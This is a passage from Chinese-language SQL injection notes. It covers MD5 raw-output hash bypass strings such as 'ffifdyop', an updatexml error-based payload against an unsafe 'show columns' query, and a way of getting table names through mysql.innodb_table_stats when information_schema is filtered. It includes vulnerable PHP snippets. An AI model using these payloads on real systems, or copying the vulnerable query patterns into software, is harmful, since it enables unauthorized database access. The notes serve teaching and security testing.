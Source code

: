 >>https://osandamalith.com/2015/07/08/bigint-overflow-error-based-sql-injection/


## MD5哈希注入

- 代码中语句

```
$sql = "SELECT * FROM admin WHERE pass = '".md5($password,true)."'";
```

**如果可选的 raw_output 被设置为 TRUE，那么 MD5 报文摘要将以16字节长度的原始二进制格式返回。**

```
ffifdyop    --> 'or'

esvh        --> '='

129581926211651571912466741651878684928 --> 'or'
```

>>https://bbs.ichunqiu.com/article-1766-1.html


## show columns 注入

- php代码

```
mysql_query("show columns from `shop_{$table}`") or die("show coulumns 出错:".mysql_error());
show columns 
```

![](https://ae01.alicdn.com/kf/H47673f9ce5214b6794f8a3f52cf6885aE.jpg)

- 注入

```
table=123` where updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)#
```

![](https://ae01.alicdn.com/kf/H47673f9ce5214b6794f8a3f52cf6885aE.jpg)


## MySQL数据库的Innodb引擎的注入

**当目标程序过滤了关键字,如information,在注入时,使用select database()关键字查询出当前库名后,无法通过查询information_schema.tables表查询当前库的表名**

- Innodb 的表

```
mysql.innodb_table_stats
mysql.innodb_index_stats
```

- 字段
